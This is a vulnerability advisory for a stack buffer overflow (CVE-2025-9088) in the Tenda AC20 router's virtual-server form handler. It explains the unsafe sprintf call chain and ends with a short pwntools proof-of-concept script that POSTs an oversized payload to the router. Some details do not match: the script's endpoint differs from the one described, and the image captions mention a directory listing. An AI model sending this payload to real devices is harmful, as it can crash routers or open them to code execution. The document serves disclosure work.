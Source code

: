 # Stack-Based Buffer Overflow in Tenda AC20 (firmware V16.03.08.12) formSetVirtualSer

## Summary

A stack-based buffer overflow vulnerability in the Tenda AC20 router (firmware V16.03.08.12) allows unauthenticated remote attackers to execute arbitrary code or cause denial of service (DoS) via the `list` parameter in the `/goform/formSetVirtualSer` endpoint. The flaw resides in the `save_virtualser_data` function, which processes the `list` input with unsafe string formatting operations lacking bounds checking, enabling stack memory corruption.

## Details



*   **Vendor**: Tenda

*   **Product**: Tenda AC20

*   **Firmware Version**: V16.03.08.12

*   **Firmware Download**: [https://www.tenda.com.cn/material/show/3264](https://www.tenda.com.cn/material/show/3264)

*   **Component**: `/goform/formSetVirtualSer`

*   **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)

*   **CVE ID**: CVE-2025-9088

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Description

The vulnerability exists in the processing chain of the `list` parameter in the `formSetVirtualSer` function and its dependent `save_virtualser_data` function. The call chain and key operations are as follows:



1.  **Parameter Retrieval**: The `list` parameter is retrieved via `websGetVar` in `formSetVirtualSer` and directly passed to `save_virtualser_data` for virtual server rule processing, with no initial input validation.

2.  **Rule Parsing**: `save_virtualser_data` checks if the length of `list` is at least 5 bytes, then splits the input by a delimiter (controlled by the third parameter `a3`, value 126) using `strchr`. Each split segment is treated as a virtual server rule entry.

3.  **Data Extraction**: For each rule entry, `sscanf` is used to parse four fields (via format string `"%[^,]%*c%[^,]%*c%[^,]%*c%s"`), extracting values into buffers `v12`, `v13`, `v14`, and `v15`.

4.  **Unsafe Formatting**: Critical unsafe operations occur in `save_virtualser_data` when constructing the configuration string:

*   `sprintf(v11, "0;%s;%s;%s;%s;1", (const char *)v14, (const char *)v13, (const char *)v12, (const char *)v15)`: This formats the parsed fields into `v11`, a fixed-size 256-byte stack buffer.

*   No bounds checking is performed on the length of the parsed fields (`v12` to `v15`), which are directly derived from the user-controlled `list` parameter.

If any of the parsed fields are sufficiently long, the `sprintf` call will overflow the 256-byte `v11` buffer, overwriting adjacent stack memory (including return addresses, saved registers, and other critical stack data). This allows an attacker to corrupt the stack and potentially execute arbitrary code.
![PoC 2 Result: Root Directory Listing](./imgs/0.png)
![PoC 2 Result: Root Directory Listing](./imgs/1.png)

## PoC: Python Exploit Script

```
from pwn import *
import requests
url = "http://192.168.xxx.xxx/goform/SetVirtualServerCfg"
cookie = {"Cookie":"password=rfl1qw"}
data = {"list": cyclic(1000)}
res = requests.post(url, cookies=cookie, data=data)
res = requests.post(url, cookies=cookie, data=data)
print(res.text)
```
![PoC 2 Result: Root Directory Listing](./imgs/2.png)
This script sends a crafted `list` parameter containing an overly long fourth field. When processed by `save_virtualser_data`, the `sprintf` call will overflow the `v11` buffer, causing stack corruption. Successful exploitation may result in arbitrary code execution or a denial of service condition (router crash/reboot).
